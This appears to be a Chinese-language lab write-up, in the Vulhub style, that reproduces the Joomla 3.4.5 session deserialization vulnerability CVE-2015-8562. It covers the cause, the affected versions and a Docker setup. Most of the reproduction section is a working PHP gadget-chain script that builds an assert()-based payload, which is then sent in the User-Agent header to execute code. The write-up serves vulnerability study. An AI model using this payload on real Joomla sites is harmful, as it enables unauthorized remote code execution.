


Joomla 3.4.5 反序列化漏洞 CVE-2015-8562¶
漏洞描述¶
本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。
通过Joomla中的Gadget，可造成任意代码执行的结果。
详情可参考：
漏洞影响¶
Joomla 1.5.x, 2.x, and 3.x before 3.4.6
PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45
环境搭建¶
Vulhub启动测试环境：
docker-compose up -d
启动后访问http://your-ip:8080/即可看到Joomla的安装界面，当前环境的数据库信息为：
- 数据库地址：mysql:3306
- 用户：root
- 密码：root
- 数据库名：joomla
填入上述信息，正常安装即可。
漏洞复现¶
然后我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：

再用如下脚本生成POC：（在线运行）
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {
}
class SimplePie {
var $sanitize;
var $cache;
var $cache_name_function;
var $javascript;
var $feed_url;
function __construct()
{
$this->feed_url = "phpinfo();JFactory::getConfig();exit;";
$this->javascript = 9999;
$this->cache_name_function = "assert";
$this->sanitize = new JDatabaseDriverMysql();
$this->cache = true;
}
}
class JDatabaseDriverMysqli {
protected $a;
protected $disconnectHandlers;
protected $connection;
function __construct()
{
$this->a = new JSimplepieFactory();
$x = new SimplePie();
$this->connection = 1;
$this->disconnectHandlers = [
[$x, "init"],
];
}
}
$a = new JDatabaseDriverMysqli();
$poc = serialize($a);
$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);
echo "123}__test|{$poc}\xF0\x9D\x8C\x86";

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：
